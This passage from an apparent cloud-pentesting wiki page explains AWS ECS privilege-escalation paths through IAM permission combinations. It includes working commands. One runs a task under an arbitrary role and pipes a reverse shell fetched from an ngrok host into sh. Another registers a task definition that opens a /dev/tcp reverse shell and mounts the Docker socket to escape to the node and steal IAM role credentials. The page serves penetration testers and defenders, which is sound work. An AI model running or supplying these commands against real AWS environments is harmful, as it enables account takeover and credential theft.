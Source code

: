 **Potential Impact:** Direct privesc to any ECS role.

### `iam:PassRole`, (`ecs:UpdateService|ecs:CreateService)`

Actually, just with those permissions it's possible to use overrides to executer arbitrary commands in a container with an arbitrary role with something like:

```bash
aws ecs run-task \
    --task-definition "<task-name>" \
    --overrides '{"taskRoleArn":"<role-arn>", "containerOverrides":[{"name":"<container-name-in-task>","command":["/bin/bash","-c","curl https://reverse-shell.sh/6.tcp.eu.ngrok.io:18499 | sh"]}]}' \
    --cluster <cluster-name> \
    --network-configuration "{\"awsvpcConfiguration\":{\"assignPublicIp\": \"DISABLED\", \"subnets\":[\"<subnet-name>\"]}}"
```

**Potential Impact:** Direct privesc to any ECS role.

### `ecs:RegisterTaskDefinition`, **`(ecs:RunTask|ecs:StartTask|ecs:UpdateService|ecs:CreateService)`**

This scenario is like the previous ones but **without** the **`iam:PassRole`** permission.\
This is still interesting because if you can run an arbitrary container, even if it's without a role, you could **run a privileged container to escape** to the node and **steal the EC2 IAM role** and the **other ECS containers roles** running in the node.\
You could even **force other tasks to run inside the EC2 instance** you compromise to steal their credentials (as discussed in the [**Privesc to node section**](aws-ecs-privesc.md#privesc-to-node)).

> [!WARNING]
> This attack is only possible if the **ECS cluster is using EC2** instances and not Fargate.

```bash
printf '[
    {
        "name":"exfil_creds",
        "image":"python:latest",
        "entryPoint":["sh", "-c"],
        "command":["/bin/bash -c \\\"bash -i >& /dev/tcp/7.tcp.eu.ngrok.io/12976 0>&1\\\""],
        "mountPoints": [
            {
                "readOnly": false,
                "containerPath": "/var/run/docker.sock",
                "sourceVolume": "docker-socket"
            }
        ]
    }
]' > /tmp/task.json

printf '[
    {
        "name": "docker-socket",
        "host": {
            "sourcePath": "/var/run/docker.sock"
        }
    }
]' > /tmp/volumes.json


aws ecs register-task-definition --family iam_exfiltration \
    --cpu 256 --memory 512 \
    --requires-compatibilities '["EC2"]' \
    --container-definitions file:///tmp/task.json \
    --volumes file:///tmp/volumes.json


```